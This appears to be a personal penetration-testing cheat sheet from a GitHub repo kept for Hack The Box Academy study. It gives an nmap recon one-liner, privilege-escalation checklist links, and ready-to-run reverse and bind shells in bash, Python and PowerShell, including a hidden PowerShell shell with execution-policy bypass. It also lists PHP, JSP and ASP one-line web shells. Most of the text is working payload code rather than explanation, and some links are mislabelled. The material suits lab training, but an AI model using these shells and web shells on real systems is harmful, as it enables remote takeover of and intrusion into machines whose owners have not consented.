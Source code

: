 # HTB ACADEMY Learning Personal Repo

## Recon

```bash
TARGET=;mkdir nmap;sudo nmap -vvv -A -sV -sC --min-rate=5000 $TARGET -p`sudo nmap -T5 -Pn --min-rate=5000 $TARGET -p-` -oA nmap/$TARGET && xsltproc
nmap/$TARGET.xml -o nmap/$TARGET.html
``` 

## PrivEsc


### Linux_Checklists

> [Checklist 1](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)  
> [Checklist 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  

### Windows_Checklists

> [Checklist 1](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)  
> [Checklist 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)  

### List Of Commands for PrivEsc
> [GTFOBins (Linux)](https://gtfobins.github.io/)  
> [LOLBAS (Windows)](https://gtfobins.github.io/)  

## Backdoor shells


### Reverse Shells

> [Villian (For Windows & Linux)](https://github.com/t3l3machus/Villain)

> Bash Shell
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

> Python Shell

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
> Windows Powershell 

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Bind Shells

> Bash Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```


> Python Shell

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

> Windows Powershell

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

### Upgrading TTY

+ We will first run below command:
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
+ After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:
```bash
stty raw -echo;fg
#press 'Enter to continue'
```

+ Fix shell size:

```bash
export TERM=$TERM
stty row 38 columns 169 
```

### Web Shell


> Php Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

> Jsp Web Shell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

> Asp Web Shell

```asp
<% eval request("cmd") %>
```

## References URLs

> [GTFObins](https://gtfobins.github.io)
>
> [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)  
>
> [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)  
>
> [HackTricks](https://book.hacktricks.xyz/welcome/readme)  
>
> [Ippsec (YouTube)](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)  
>
> [Ippsec (Topic Searcher)](https://ippsec.rocks/?#)  
>
> [VbScrub (YouTube)](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)  
>
> [STÖK (YouTube)](https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg)  
>
> [LiveOverflow (YouTube)](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)  
>
> [0xdf hacks stuff(Blog)](https://0xdf.gitlab.io/)  
>
> [Under The Wire (Powershell Tutorial Website)](https://underthewire.tech/)
>
> [Over The Wire (Bash Tutorial Website)](https://overthewire.org/wargames/)
>
> [Magic Unicorn Downgrade Tool (For Windows)](https://github.com/trustedsec/unicorn)
